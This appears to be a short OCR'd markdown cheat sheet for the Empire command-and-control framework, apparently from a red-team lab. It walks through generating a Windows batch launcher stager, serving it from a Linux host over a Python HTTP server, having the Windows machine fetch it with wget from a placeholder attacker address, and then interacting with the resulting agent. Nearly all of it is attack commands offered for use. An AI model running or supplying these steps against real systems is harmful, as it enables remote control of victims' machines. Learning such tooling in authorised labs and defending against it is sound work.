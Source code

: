 ### Create Stager
* linux
    * empire client
        * show stagers
        ```
        usestager
        ```
        * select the stager
        ```
        usestager windows/launcher_bat
        ```
        * show options
        ```
        options
        ```
        * setup
        ```
        set Listener http
        ```
        * generate the stager file
        ```
        generate
        ```

### Deploy the Stager
* linux 
    * launch the server
    ```
    cd /opt/empire/empire/client/generated-stagers/
    python3 -m http.server
    ```
* windows
    * download the stager
    ```
    wget http://LINUX_ETH0_ADDRESS:8000/launcher.bat -OutFile launcher.bat
    ```

### Active Agent
* linux
    * empire client
        * show agents
        ```
        agents
        ```
        * interact agent
        ```
        interact AGENT_NAME
        ```
        * get the information
        ```
        info
        ```
